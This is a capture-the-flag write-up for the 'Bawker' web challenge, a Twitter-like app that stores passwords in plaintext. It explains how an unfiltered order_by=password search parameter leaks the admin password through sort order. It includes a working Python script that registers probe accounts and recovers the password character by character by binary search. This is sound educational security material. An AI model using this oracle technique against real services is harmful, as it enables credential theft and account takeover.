








# Bawker (Blue Hens CTF 2026)
---
**Description:**

I vibe coded a twitter alternative

## Table of contents
- [I. Overview](#i-overview)
- [II. Source code analysis](#ii-source-code-analysis)
- [III. Vulnerability Analysis](#iii-vulnerability-analysis)
- [IV. Exploitation](#iv-exploitation)

---
## I. Overview
The web application basically has fundamental functions similar to 'twitter' as description suggest, including: register, login, feed page, user-search function, find user, update profile, follow/unfollow other user via api, update information as public/private. Below are some pictures of the web.












The webapp has flaw in storing plaintext password and allowing user to search for bawks and order them by some attributes (particularly password), thereby hacker can create hundreds of accounts with different forms of password and gradually extract the admin password char by char.

## II. Source code analysis

```
.
├── / [GET]                                 GET: error, search, page, size
├── /login [GET]                            GET: error
├── /register [GET]                         GET: error
├── /auth
│   ├── /login [POST]                       POST: username, password
│   ├── /register [POST]                    POST: username, password, display_name, bio, is_private
│   └── /logout [POST]
├── /bawks
│   ├── /create [POST]                      POST: content, is_private
│   └── /{bawk_id}
│       ├── /like [POST]
│       ├── /rebawk [POST]
│       └── /delete [POST]
├── /users
│   ├── /me [POST]                          POST: username, display_name, bio, is_private
│   └── /{user_id}
│       ├── /follow [POST]
│       └── /unfollow [POST]
├── /search
│   ├── /users [GET]                        GET: search, page, size
│   └── /bawks [GET]                        GET: search, page, size
├── /profile
│   └── /edit [GET]                         GET: error, success
└── /api
    ├── /auth
    │   ├── /register [POST]                POST: username, password, display_name, bio, is_private
    │   ├── /login [POST]                   POST: username, password
    │   ├── /logout [POST]
    │   └── /me [GET]
    ├── /bawks [GET,POST]                   GET: page, size | POST: content, is_private
    │   └── /{bawk_id} [PATCH,DELETE]       PATCH: content, is_private
    │       ├── /like [POST]
    │       └── /rebawk [POST]
    └── /users [GET]                        GET: page, size
        ├── /me [PATCH]                     PATCH: username, display_name, bio, is_private
        └── /{user_id}
            ├── /followers [GET]            GET: page, size
            ├── /following [GET]            GET: page, size
            ├── /follow [POST]
            └── /unfollow [POST]
```

For the code base is really large, I'll only walk through and explain vital parts and endpoints/services.

The web has `follow` function in which user can follow others via id.

- `/api/users/{user_id}/follow`: It's just basically follow other users



- `/api/bawk`: show bawk of yourself, public account with public bawk, private account if both follow each other


- For the database, server tries to store password in plaintext rather than hash by removing all hashed password column


- For the admin account, it is initialized with `user_id = 0`, `is_private = True` and `bawk content is Flag`


- For the normal user, registration also stores password in plaintext as well.


- `/search/users`: Show your account, public accounts and accounts you follow. Sort the account by username in default.


## III. Vulnerability Analysis

The main problem here is that server stores password in plaintext, not hash.

In the `UserFilter`, dev may be unaware of that user can insert param `order_by` in the url to override the default value. Or if they do be aware, they lack of proper validation/filter.

In this case, attacker can add a param `order_by=password` in the URL to fine-tune the sorted output.

Note the `order_by` works on fields of the specified model, in this case is `User` which of course consists of `password` field. (The author say so. Read more [here](https://github.com/arthurio/fastapi-filter/blob/main/fastapi_filter/base/filter.py))



## IV. Exploitation

The flow is now clear. Since we can't make admin follow us back to read his private bawk. We will leak the password via account creation with different passwords to probe for admin password.

The main idea here is probing the password char by char (32-char password). Starting with the first character and padding the right-remaining by `~` because admin password comprises of alphanumerics only.
For example: `abcd` < `a~~~~`, therefore, we can ensure that admin account always appears above our accounts.

I would use `Binary Search` algorithm for solving this. First, I register the middle one is `m~~~~~~`, if admin appear above, so we know that first char of admin lies in range of `a` to `m` and so on for the remaining.

After each probe, I update the account to be `private` so that for each later search, the build of html content is alleviated, making it load faster to bruteforce.

### Proof of Concept

```python
import requests
import string
import time
import re

BASE_URL = "http://127.0.0.1:1337"
charset = sorted(list(string.ascii_letters + string.digits)) 
admin_password = ""

print("[*] Start Binary Search")

for i in range(32):
    low = 0
    high = len(charset) - 1
    
    while low < high:
        mid = (low + high) // 2
        test_char = charset[mid]
        
        test_pass = admin_password + test_char + "~" * (33 - len(admin_password) - 1)
        if len(test_pass) < 8:
            test_pass = test_pass.ljust(8, '~')
            
        test_username = f"test_{i}_{mid}"
        s = requests.Session()
        
        # Step 1 & 2: Register and Follow Admin
        s.post(f"{BASE_URL}/api/auth/register", json={"username": test_username, "password": test_pass})
        s.post(f"{BASE_URL}/api/users/0/follow")
        
        # Step 3: Continue in the next page until find out admin
        all_users = []
        current_page = 1
        
        while True:
            url = f"{BASE_URL}/search/users?order_by=password&size=50&page={current_page}"
            res = s.get(url)
            users_in_page = re.findall(r'<p>@(\w+)</p>', res.text)
            
            if not users_in_page:
                break
                
            all_users.extend(users_in_page)
            if "admin" in all_users and test_username in all_users:
                break
            current_page += 1
        
        # Step 4: Position analysis
        try:
            admin_index = all_users.index("admin")
            test_index = all_users.index(test_username)
        except ValueError:
            print(f"[-] Lỗi: Không tìm thấy admin hoặc {test_username}!")
            break
            
        if admin_index < test_index:
            high = mid
        else:
            low = mid + 1
            
        # Step 5: Turn on private account
        update_payload = {
            "username": test_username,
            "display_name": "",
            "bio": "",
            "is_private": "true" 
        }
        s.post(f"{BASE_URL}/users/me", data=update_payload) 
        
        time.sleep(0.05) 
        
    admin_password += charset[low]
    print(f"[+] Character number {i+1}: {charset[low]}  ---> Current password: {admin_password}")

print(f"\n[+] Finished! The Admin password is: {admin_password}")
```




> Flag: ***UDCTF{Pl34s3_D0_n0t_4ll0w_0rd3r_by_P4Ssw0rd!!}***


